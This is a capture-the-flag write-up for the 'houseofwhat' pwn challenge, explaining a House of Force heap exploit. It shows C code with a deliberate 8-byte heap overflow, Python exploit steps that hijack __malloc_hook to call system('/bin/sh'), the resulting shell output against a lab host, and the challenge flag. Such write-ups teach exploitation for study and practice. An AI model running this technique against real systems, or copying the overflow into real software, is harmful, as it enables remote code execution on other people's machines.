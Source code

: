 # Challenge

**Name:** houseofwhat

**Category:** pwn

**Difficulty:** Hard

**Author:** mowemcfc

**Flag:** ISS{h0u53_0f_wh47?_h0u53_0f_f0rc3!!}

## Description

You've been invited to someone's house for dinner, but something feels off...

## Solution

This is a basic example of the [House of Force](https://seclists.org/bugtraq/2005/Oct/118) exploit. I would highly recommend you read this link to understand, as more than likely my description will be insufficient.

The exploit hinges on the fact the `wilderness chunk`'s (or top chunk) size value is not checked for integrity. This means that by corrupting this value, we can trick the allocator into setting the `wilderness pointer` to any arbitrary value we like.

The vulnerability in this program is a very basic 8-byte heap overflow.

```c
        if (option == 2) {
            if (notecount < 4) {
                printf("Size: ");
                note_size = read_num(); < --- ATTACKER PROVIDED SIZE
                note_ptr = (char*)malloc(note_size);
                notes[notecount] = note_ptr;

                printf("Message: ");
                max_alloc = malloc_usable_size(notes[notecount]);
                read(0, notes[notecount], max_alloc+8); < --- OVERFLOW

                notecount++;
                puts("\nNote added!");
```

Specifically, the `read` call will read 8 bytes more than whatever size is provided to `read_num`.

Thus, on our very first `malloc`, we can overflow 8 bytes of the wilderness chunk with 0xffffffffffffff. 

```py
malloc(24, b"A"*24 + p64(0xffffffffffffffff))
```

Next malloc, we provide a specially crafted size value, such that the next malloc will return a pointer to `__malloc_hook` (which is called every time `malloc` is). But before that, we place `/bin/sh` on the stack so that it can be used as an argument.

```py
distance = libc.sym.__malloc_hook - (heap+0x20)
malloc(distance, b"/bin/sh\0")
```

Then, as mentioned, we call malloc again (which returns our `__malloc_hook` pointer), and read the address of `system` into it.

```py
malloc(24, p64(libc.sym.system))
```

At this point `__malloc_hook` now points to `system`, and thus when `malloc` is called, we also call `system`. Whatever argument is provided to `malloc` will also be used as the argument to `system`. 

As `system` expects a pointer, we use the address to the previously mentioned `/bin/sh` string as the size argument, and achieve a shell.

```py
cmd = heap + 0x10
malloc(cmd, b"", True)
```

```shell
[+] Opening connection to 172.17.0.2 on port 3141: Done
[*] libc base @ 0x7f4e57e68000
[*] heap @ 0x559653d60020
[*] Switching to interactive mode
$ ls
flag.txt  houseofwhat  lib
```
